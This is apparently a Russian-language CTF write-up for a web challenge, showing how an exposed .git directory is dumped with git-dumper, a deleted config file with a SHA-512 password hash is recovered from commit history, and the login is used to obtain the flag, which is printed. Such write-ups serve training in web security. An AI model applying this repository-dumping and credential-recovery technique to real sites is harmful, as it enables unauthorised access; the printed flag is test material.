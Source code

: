 # WebSite3

Заходя на сайт, видим 2 картинки на чёрном фоне, одна из них означает космос другая ветвь. Это намекает на дерево git. Проверим папку `.git`, действительно она там есть. Тогда сдампим её через git-dumper.
```bash
git-dumper http://web.ctf.msk.ru/ctn2021/advancedquals/WebSite3/.git/ WebSite3
```
Зайдя в директорию с сдампленным проектом, видим login.php, смотря код видим следующее:
```php
<?php
  require_once "config.php";
?>
```
Следовательно, где-то затерялся ещё один файл с конфигом, хорошо, посмотрим остальной код. Видим обычную авторизацию после верновведёных полей которой получим флаг. Но вот username и password находятся в потерянном `config.php`. Тогда время применять git:
```bash
git log
```
Видим все коммиты:
`
commit 3adab4d59f5951e0471435643a45d138795efedc (HEAD -> master)
Author: Aleksandr <aleksandr@ctf.msk.ru>
Date:   Fri Apr 23 23:01:19 2021 +0300

    Make body black

commit 0582e6c14506689b7d7dc94df34376270701c7d7
Author: Aleksandr <aleksandr@ctf.msk.ru>
Date:   Fri Apr 23 23:01:05 2021 +0300

    Add login form

commit b8dfe2717dc0a632ecd9db2cea2eaa5d01fa5b06
Author: Aleksandr <aleksandr@ctf.msk.ru>
Date:   Fri Apr 23 23:00:53 2021 +0300

    Remove config

commit 2dd7285b2877ef9a3a5a18eb7bd7970c15c9dd90
Author: Aleksandr <aleksandr@ctf.msk.ru>
Date:   Fri Apr 23 22:08:23 2021 +0300

    Add config

commit 341d580b5959b9f8a30b3ee31dbf61d6eb4dc940
Author: Aleksandr <aleksandr@ctf.msk.ru>
Date:   Fri Apr 23 21:50:05 2021 +0300

    Add Static
`
Нам интересен коммит добавления конфига, поэтому прописываем команду: `git show 2dd7285b2877ef9a3a5a18eb7bd7970c15c9dd90`
И получаем код конфига:
```php
<?php
  $username = "testuser";
  $testpassword = "e9e633097ab9ceb3e48ec3f70ee2beba41d05d5420efee5da85f97d97005727587fda33ef4ff2322088f4c79e8133cc9cd9f3512f4d3a303cbdb5bc585415a00";
?>
```
Пароль можно посмотреть через декриптор  (из `login.php` узнаём, что это `sha512`), получаем пароль `testpassword`
Логинимся с username и password `testuser` и `testpassword` соответственно и получаем флаг:

Flag: `CYBERTHON{83_4W433_0F_9i7}`
